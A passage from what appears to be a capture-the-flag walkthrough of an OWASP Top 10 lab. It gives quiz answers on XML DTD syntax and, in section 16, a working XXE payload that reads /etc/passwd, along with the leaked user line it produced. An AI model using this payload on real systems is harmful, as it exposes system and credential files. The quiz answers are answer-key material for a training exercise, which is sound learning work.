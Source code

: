 **=> Answer: `XML prolog`**

### 14. [Severity 4] XML External Entity - DTD
- How do you define a new ELEMENT?

**=> Answer: `!ELEMENT`**

- <p>How do you define a ROOT element?<br /></p>

**=> Answer: `!DOCTYPE`**

- <p>How do you define a new ENTITY?<br /></p>

**=> Answer: `!ENTITY`**

### 15. [Severity 4] XML External Entity - XXE Payload
*No hints needed!*

### 16. [Severity 4] XML External Entity - Exploiting
- <p>What is the name of the user in /etc/passwd<br /></p>
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd">]> 
<root>&read;</root>
```

![Guide Image](./screenshots/owasp-top-10-2.png)

- You can see the name:
```
falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
```
